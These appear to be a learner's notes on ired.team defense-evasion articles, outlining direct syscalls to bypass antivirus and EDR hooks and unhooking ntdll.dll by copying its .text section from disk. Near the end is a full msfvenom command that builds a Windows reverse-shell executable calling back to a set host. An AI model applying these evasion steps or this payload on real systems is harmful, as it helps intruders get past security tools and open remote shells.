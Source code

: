 ### calling syscalls directly from visual studio to bypass Avs/ EDRs

https://www.ired.team/offensive-security/defense-evasion/using-syscalls-directly-from-visual-studio-to-bypass-avs-edrs

We are trying to write our own functions that call syscalls directly.

1. first we built a syscalls.asm, that calls syscall 55 which is reserved for ntcreateFile. (look at syscall.asm)

2. The way we can find the procedure's prologue (mov r10, rcx, etc..) is by disassembling the function NtCreateFile (assuming it's not hooked. If hooked, just do the same for, say NtWriteFile) using WinDbg found in ntdll.dll module or within Visual Studio by resolving the function's address and viewing its disassembly there.

3. Once we have the SysNtCreateFile procedure defined in assembly, we need to define the C function prototype that will call that assembly procedure. 

4. Before testing SysNtCreateFile, we need to initialize some structures and variables (like the name of the file name to be opened, access requirements, etc.)

5. call SysNtCreateFile

The code is in `using_syscall_directly.c`

Next to do - look at how disassembly works

![](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LjB_qkyhCQvQXmTWkaq%2F-LjBgbyzlmx2SIrGuGIk%2Fsyscall-debugging.gif?alt=media&token=a66279aa-f0d6-426c-bfeb-c95c8896aabb)

nt create file is not making a file currently.

# Full DLL Unhooking with C++
https://www.ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++

It's possible to completely unhook any given DLL loaded in memory, by reading the .text section of ntdll.dll from disk and putting it on top of the .text section of the ntdll.dll that is mapped in memory. 

### overview

The process for unhooking a DLL is as follows. 

Map a fresh copy of ntdll.dll from disk to process memory
Find virtual address of the .text section of the hooked ntdll.dll
    get ntdll.dll base address
    module base address + module's .text section VirtualAddress
Find virtual address of the .text section of the freshly mapped ntdll.dll
Get original memory protections of the hooked module's .text section
Copy .text section from the freshly mapped dll to the virtual address (found in step 3) of the original (hooked) ntdll.dll - this is the meat of the unhooking as all hooked bytes get overwritten with fresh ones from the disk
Apply original memory protections to the freshly unhooked .text section of the original ntdll.dll

I dont know what to do with ntdll
cant understand the code

# AV Bypass with Metsploit Templates and Custom Binaries

https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates

generating a reverse shell payload
1. msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f exe > /root/tools/av.exe

initial detection 51

install metatwin and check
